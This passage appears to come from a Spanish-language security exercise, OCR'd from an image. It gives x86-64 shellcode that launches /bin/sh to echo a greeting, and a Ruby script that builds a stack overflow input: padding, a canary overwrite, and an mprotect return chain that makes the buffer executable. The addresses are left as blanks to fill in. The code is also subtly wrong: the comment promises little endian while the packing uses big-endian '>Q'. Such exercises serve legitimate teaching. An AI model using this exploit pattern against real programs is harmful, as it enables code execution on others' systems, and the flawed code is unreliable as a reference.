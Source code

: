 ```ruby
buf = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05"
```



El script para generar nuestra entrada podría ser entonces el siguiente:

```ruby
#!/usr/bin/ruby

# generate-input.rb

payload = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05".force_encoding("ASCII-8BIT")

p_len = payload.length

# Completar con el valor del canario
canary = 0x0

# Completar con la dirección del buffer
addr_buffer = 0x0

# Completar con la dirección de mprotect
addr_mprotect = 0x0

# Completar con la dirección de aid
addr_aid = 0x0

# Completar con la cantidad de bytes desde el inicio del buffer
# hasta la dirección de retorno. Debe ser mayor a la longitud del payload + 16.
bytes_until_ret = 0x0

# Llenamos con bytes hasta llegar al canario.
fill_0 = ("\x90"*(bytes_until_ret - p_len - 16)).force_encoding("ASCII-8BIT")

# Ingresamos el el canario, y luego 8 bytes adicionales.
fill = fill_0 + [canary].pack(">Q") + ("\x90"*8).force_encoding("ASCII-8BIT")

# Generamos la cadena. Todos los valores estarán en formato little endian.
chain = [
    addr_aid + 4,
    addr_buffer & ~0xfff,
    addr_aid + 6,
    0x100,
    addr_aid + 8,
    0x7,
    addr_mprotect,
    addr_buffer
].pack(">Q*")

# Generamos el exploit.
puts payload.force_encoding("ASCII-8BIT") + fill + chain
```
